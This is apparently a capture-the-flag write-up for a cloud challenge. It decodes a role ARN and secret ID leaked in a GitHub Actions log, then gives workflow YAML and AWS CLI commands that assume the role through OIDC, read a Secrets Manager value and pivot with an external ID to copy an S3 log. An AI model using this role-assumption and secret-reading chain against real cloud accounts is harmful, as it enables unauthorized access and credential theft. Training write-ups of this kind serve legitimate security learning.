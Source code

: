 # Actions - Cloud Village CTF 2025

## Challenge Description

<img src="./Action_Theft_Repo_890pts_part1.jpg" width="300">
<img src="./Action_Theft_Repo_890pts_part2.jpg" width="300">

## Initial Discovery

Inside the bucket there was a HTML file referencing a Github organization: https://github.com/HEXNOVA404

![](./hexnova.png)

There was a couple of repos, and one of them had a [github action log that leaked some useful info](https://github.com/HEXNOVA404/Organisation-Vault/actions/runs/16701033362/job/47272191258):

![](leaky_job.png)

We found the Role ARN and a `secret_id` provided as base64-encoded strings:
- `YXJuOmF3czppYW06OjE3MDk3NDUwNjUxNTpyb2xlL2dpdGh1Yi1kZXBsb3ltZW5lcm9sZQ=`
- `aW50ZXJuYWwvc2VjcmV0cy9pZC12Mg==`

Decoding them:

```bash
echo 'YXJuOmF3czppYW06OjE3MDk3NDUwNjUxNTpyb2xlL2dpdGh1Yi1kZXBsb3ltZW50LXJvbGU=' | base64 -d
arn:aws:iam::170974506515:role/github-deployment-role

echo 'aW50ZXJuYWwvc2VjcmV0cy9pZC12Mg==' | base64 -d
internal/secrets/id-v2
```


I created a private fork and tried, assuming the first role, to access the secret:
```
name: ctf

on:
  workflow_dispatch:

permissions:
  id-token: write
  contents: read

jobs:
  tf:
    runs-on: ubuntu-latest

    steps:
      - name: Configure AWS credentials via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::170974506515:role/github-deployment-role
          role-session-name: github-deployment-role
          aws-region: us-west-2

      - name: Get secret
        run: |
          SECRET_JSON=$(aws secretsmanager get-secret-value \
            --secret-id internal/secrets/id-v2 \
            --region us-west-2 \
            --query 'SecretString' \
            --output text)

          EXTID=$(echo "$SECRET_JSON" | jq -r '.external_id')
          echo "extid: $EXTID"
```

![alt text](secret.png)

In parallel, we discovered this gist within the same organization:
![](gist.png)

Inspecting the raw content (or the revisions), we found a different role ARN, an S3 bucket, and a mention of the external ID:
![alt text](gist_rev.png)

Using the external ID, we then attempted to access the S3 bucket:
```
      - name: Assume role with external id and echo flag
        run: |
          aws sts assume-role \
            --role-arn "arn:aws:iam::170974506515:role/prod-readonly-auditor" \
            --role-session-name "pivot" \
            --external-id "$EXTID"

          aws s3 cp s3://ci-deployment-logsv1/ci-deploy-output.log -
```
*(Note: We first performed an `aws s3 ls` to list the bucket's contents.)*

Boom! 💥
![alt text](flag.png)